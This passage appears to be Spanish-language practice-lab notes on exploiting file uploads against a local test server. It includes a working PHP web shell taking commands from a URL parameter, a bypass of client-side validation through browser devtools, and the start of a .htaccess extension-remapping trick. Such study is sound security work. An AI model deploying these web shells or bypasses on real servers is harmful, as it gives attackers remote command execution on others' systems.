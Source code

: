 ```bash
<?php
  system("whoami");
?>
```

Explicación:  al subir este archivo `command.php` aunque el servidor diga que solo acepta `jpeg-gif` si no lo comprueba/sanitiza se sube igualmente y accediendo al endpoint donde se almacena el archivo podemos ver la ejecución de comandos


Acción:

```bash
nvim cmd.php

<?php
  system($_GET['cmd']);
?>
```

Resultado:

```bash
http://localhost:9001/upload1/uploads/cmd.php?cmd=whoami

www-data 
```

Explicación:  ahora con `?cmd=<comando>` podemos controlar la ejecución de comandos desde el navegador

---
## Sanitización del lado del cliente

Acción: en el código fuente podemos ver que el apartado de `onsubmit` llama a una función `validate.js` 

![Captura](./Imágenes/codigo_fuente_1.png)

Acción:

![Captura](./Imágenes/devtools_1.png)

Acción:

![Captura](./Imágenes/devtools_2.png)

Explicación:  quitamos el apartado `onsubmit` que es el que aplica la sanitización

---
## Cambio de políticas con `.htaccess`

Acción: cargamos un archivo `.htaccess` y le indicamos que añada que cualquier extensión acabada en `.test` sea interpretada como `php`, además cambiamos el `Content-Type` a `text/plain`
